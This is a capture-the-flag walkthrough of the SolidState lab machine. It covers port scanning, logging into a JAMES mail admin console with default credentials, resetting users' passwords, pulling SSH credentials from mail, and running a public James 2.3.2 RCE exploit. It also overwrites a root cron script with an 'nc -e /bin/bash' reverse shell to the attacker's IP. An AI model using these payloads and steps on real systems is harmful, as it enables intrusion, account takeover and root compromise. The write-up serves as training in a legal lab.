






---
search:
  exclude: true
---
# SolidState Writeup

## Introduction :

Solidstate is a medium Linux box released back in September 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → nmap -F 10.10.10.51 --top-ports 50000 -vvv
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-03 06:15 GMT
      Initiating Ping Scan at 06:15
      Scanning 10.10.10.51 [2 ports]
      Completed Ping Scan at 06:15, 0.20s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 06:15
      Completed Parallel DNS resolution of 1 host. at 06:15, 0.01s elapsed
      DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 06:15
      Scanning 10.10.10.51 [8320 ports]
      Discovered open port 22/tcp on 10.10.10.51
      Discovered open port 25/tcp on 10.10.10.51
      Discovered open port 80/tcp on 10.10.10.51
      Discovered open port 110/tcp on 10.10.10.51
      Increasing send delay for 10.10.10.51 from 0 to 5 due to max_successful_tryno increase to 4
      Increasing send delay for 10.10.10.51 from 5 to 10 due to max_successful_tryno increase to 5
      Discovered open port 119/tcp on 10.10.10.51
      Connect Scan Timing: About 18.68% done; ETC: 06:18 (0:02:15 remaining)
      Discovered open port 4555/tcp on 10.10.10.51
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → nmap -sCV -p22,25,80,110,119,4555 10.10.10.51
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-03 06:17 GMT
      Nmap scan report for 10.10.10.51
      Host is up (0.23s latency).
    
      PORT     STATE SERVICE     VERSION
      22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
      | ssh-hostkey:
      |   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
      |   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
      |_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
      25/tcp   open  smtp        JAMES smtpd 2.3.2
      |_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.11 [10.10.14.11]),
      80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
      |_http-server-header: Apache/2.4.25 (Debian)
      |_http-title: Home - Solid State Security
      110/tcp  open  pop3        JAMES pop3d 2.3.2
      119/tcp  open  nntp        JAMES nntpd (posting ok)
      4555/tcp open  james-admin JAMES Remote Admin 2.3.2
      Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 26.99 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80, so let's investigate it :

Browsing at the bottom we find an username : webadmin 

now let's dirsearch the website to see if we find anything interesting : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → dirsearch -u http://10.10.10.51/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50 -e php,txt,html,js,xml
    git clone https://github.com/maurosoria/dirsearch.git
    dirsearch -u  -e  -t 50 -x 500
    
     _|. _ _  _  _  _ _|_    v0.3.9
    (_||| _) (/_(_|| (_| )
    
    Extensions: php, txt, html, js, xml | HTTP method: get | Threads: 50 | Wordlist size: 87646
    
    Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-03-03_06-21-26.log
    
    Target: http://10.10.10.51/
    
    [06:21:27] Starting:
    [06:21:29] 301 -  311B  - /images  ->  http://10.10.10.51/images/
    [06:21:29] 200 -    8KB - /
    [06:21:30] 301 -  311B  - /assets  ->  http://10.10.10.51/assets/
    
    Task Completed
    

`  

Doesn't seem like there's much on it, so let's investigate the port 4555 : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → nc 10.10.10.51 4555
    JAMES Remote Administration Tool 2.3.2
    Please enter your login and password
    Login id:
    root
    
    Password:
    root
    
    Welcome root. HELP for a list of commands
    HELP
    
    Currently implemented commands:
    help                                    display this help
    listusers                               display existing accounts
    countusers                              display the number of existing accounts
    adduser [username] [password]           add a new user
    verify [username]                       verify if specified user exist
    deluser [username]                      delete existing user
    setpassword [username] [password]       sets a user's password
    setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
    showalias [username]                    shows a user's current email alias
    unsetalias [user]                       unsets an alias for 'user'
    setforwarding [username] [emailaddress] forwards a user's email to another email address
    showforwarding [username]               shows a user's current email forwarding
    unsetforwarding [username]              removes a forward
    user [repositoryname]                   change to another user repository
    shutdown                                kills the current JVM (convenient when James is run as a daemon)
    quit                                    close connection
    

trying out the default credentials (root:root) we log in as the root user now let's see what we have : 
    
    
      Welcome root. HELP for a list of commands
    listusers
    Existing accounts 5
    user: james
    user: thomas
    user: john
    user: mindy
    user: mailadmin
    
    setpassword james nihilist
    Password for james reset
    
    setpassword thomas nihilist
    Password for thomas reset
    
    setpassword john nihilist
    Password for john reset
    
    setpassword mindy nihilist
    Password for mindy reset
    
    setpassword mailadmin nihilist
    Password for mailadmin reset
    

We get a bunch of users so let's change their passwords to something easy to remember and investigate the pop3 service running on port 110 : 
    
    
      POP3:
    
      USER user
      PASS password
      STAT
      LIST
      RETR nbmessage
    
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → telnet 10.10.10.51 110
      Trying 10.10.10.51...
      Connected to 10.10.10.51.
      Escape character is '^]'.
      +OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready
      USER james
      +OK
      PASS nihilist
      +OK Welcome james
      STAT
      +OK 0 0
      LIST
      +OK 0 0
      .
      RETR 1
      -ERR Message (1) does not exist.
    

Using telnet to access the POP3 service, we login as the james user but see that he doesn't have any interesting mail. so let's move on to the 2 interesting ones : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → telnet 10.10.10.51 110
    Trying 10.10.10.51...
    Connected to 10.10.10.51.
    Escape character is '^]'.
    +OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready
    USER mindy
    +OK
    PASS nihilist
    +OK Welcome mindy
    STAT
    +OK 2 1945
    LIST
    +OK 2 1945
    1 1109
    2 836
    .
    RETR 2
    +OK Message follows
    Return-Path: <****mailadmin@localhost>
    Message-ID: <****16744123.2.1503422270399.JavaMail.root@solidstate>
    MIME-Version: 1.0
    Content-Type: text/plain; charset=us-ascii
    Content-Transfer-Encoding: 7bit
    Delivered-To: mindy@localhost
    Received: from 192.168.11.142 ([192.168.11.142])
              by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
              for <****mindy@localhost>;
              Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
    Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
    From: mailadmin@localhost
    Subject: Your Access
    
    Dear Mindy,
    
    
    Here are your ssh credentials to access the system. Remember to reset your password after your first login.
    Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.
    
    username: mindy
    pass: P@55W0rd1!2@
    
    Respectfully,
    James
    
    .

and we get credentials ! mindy:P@55W0rd1!2@ , from there we'll just ssh as mindy :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → ssh mindy@10.10.10.51
    The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
    ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.51' (ECDSA) to the list of known hosts.
    mindy@10.10.10.51's password:
    Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
    mindy@solidstate:~$ id
    -rbash: id: command not found
    mindy@solidstate:~$ id
    -rbash: id: command not found
    mindy@solidstate:~$ whoami
    -rbash: whoami: command not found
    mindy@solidstate:~$ cat user.txt
    
    91XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have the user flag. 

## **Part 3 : Getting Root Access**

Trying to privesc from a limited rbash shell is quite a pain so let's see if we can find another way in most notably using this exploit :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/SolidState]
    → searchsploit apache james 2.3
    ----------------------------------------------------- -------------------------------
     Exploit Title                                       |  Path
                                                       | (/usr/share/exploitdb/)
    ----------------------------------------------------- -------------------------------
    Apache James Server 2.3.2 - Remote Command Execution | exploits/linux/remote/35513.py
    ----------------------------------------------------- -------------------------------
    Shellcodes: No Result
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/SolidState]
    → locate 35513.py
    /usr/share/exploitdb/exploits/linux/remote/35513.py
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/SolidState]
    → cp /usr/share/exploitdb/exploits/linux/remote/35513.py .
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/SolidState]
    → nano 35513.py
    

Now we modify the exploit accordingly : 

 _Terminal 1:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/SolidState]
    → python 35513.py 10.10.10.51
    [+]Connecting to James Remote Administration Tool...
    [+]Creating user...
    [+]Connecting to James SMTP server...
    [+]Sending payload...
    [+]Done! Payload will be executed once somebody logs in.
    
    

` _Terminal 2:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/SolidState]
      → nc -lvnp 9002
      listening on [any] 9002 ...
    
    

Now to execute the payload (which is a reverse shell connection on our port 9002) we need to ssh into the machine. 

_Terminal 1:_
    
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/SolidState]
    → ssh mindy@10.10.10.51
    mindy@10.10.10.51's password:
    

` _Terminal 2:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/SolidState]
    → nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.51] 39142
    id
    uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
    which python
    /usr/bin/python
    python 'import pty;pty.spawn("/bin/bash")'
    ls
    bin
    user.txt
    

And we get an unrestricted shell ! now let's see which files may allow us to effectively privesc this box : 
    
    
      find / -user root -perm -002 -type f -not -path "/proc/*" 2>/dev/null
    /opt/tmp.py
    /sys/fs/cgroup/memory/cgroup.event_control
    
    ls -lash /opt/tmp.py
    4.0K -rwxrwxrwx 1 root root 105 Aug 22  2017 /opt/tmp.py
    
    cat /opt/tmp.py
    #!/usr/bin/env python
    import os
    import sys
    try:
         os.system('rm -r /tmp/* ')
    except:
         sys.exit()
    
    nano /opt/tmp.py
    

And we have a python script that has the 777 permissions ! This is a serious security issue as we're going to demonstrate :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → cd _HTB/SolidState
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/SolidState]
    → nano tmp.py
    
    
    
      #!/usr/bin/env python
    import os
    import sys
    try:
         os.system('/bin/nc -e /bin/bash 10.10.14.11 9003')
    except:
         sys.exit()
    

now with this infected python script we make the machine download it in it's /tmp directory : 

_Terminal 1:_
    
    
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/SolidState]
    → python -m SimpleHTTPServer 8080
    Serving HTTP on 0.0.0.0 port 8080 ...
    
    

` _Terminal 2:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/SolidState]
    → nc -lvnp 9003
    

` _Terminal 3:_
    
    
      cd /tmp
    
    pwd
    /tmp
    
    which wget
    /usr/bin/wget
    
    wget http://10.10.14.11:8080/tmp.py
    
    ls
    tmp.py
    
    cp tmp.py /opt/tmp.py
    
    ls -lash /opt
    total 16K
    4.0K drwxr-xr-x  3 root root 4.0K Aug 22  2017 .
    4.0K drwxr-xr-x 22 root root 4.0K Jun 18  2017 ..
    4.0K drwxr-xr-x 11 root root 4.0K Aug 22  2017 james-2.3.2
    4.0K -rwxrwxrwx  1 root root  128 Mar  3 14:07 tmp.py
    

Now we wait a bit and we should catch the incoming reverse shell connection on our 9003 port once the cronjob executes the python script as the root user. 

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/SolidState]
    → nc -lvnp 9003
    listening on [any] 9003 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.51] 47682
    
    id
    uid=0(root) gid=0(root) groups=0(root)
    
    cat /root/root.txt
    b4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we recieved our reverse shell connection as root and we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

